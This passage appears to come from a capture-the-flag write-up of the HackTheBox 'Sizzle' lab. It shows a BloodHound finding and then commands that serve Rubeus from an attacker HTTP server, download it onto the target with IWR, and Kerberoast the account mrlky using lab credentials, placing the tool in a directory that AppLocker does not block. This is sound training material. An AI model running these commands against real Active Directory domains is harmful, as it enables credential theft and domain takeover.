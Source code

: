 <figure><img src="../../.gitbook/assets/sizzle_mlky_dcsync_bh.png" alt=""><figcaption><p>Figure 26: BloodHound shows us that the account mrlky has DCSync rights over the domain.</p></figcaption></figure>

To [Kerberoast](../../tl-dr/active-directory/attacks/kerberoasting.md) `mrlky` we need to transfer [Rubeus](../../tl-dr/active-directory/ad-tools/rubeus.md) to the target and execute it from a directory that does not interfere with the AppLocker group policy, such as `c:\windows\temp` (Figure 27).

{% tabs %}
{% tab title="1. HTTP Server" %}
```bash
# starting an HTTP server from the directory that Rubeus.exe resides
python3 -m http.server 80
```
{% endtab %}

{% tab title="2. Download" %}
{% code overflow="wrap" %}
```bash
# downloading the executable from the target host
IWR -Uri http://10.10.14.4/Rubeus.exe -OutFile rb.exe
# running the executable
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /user:mrlky /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}
{% endtabs %}
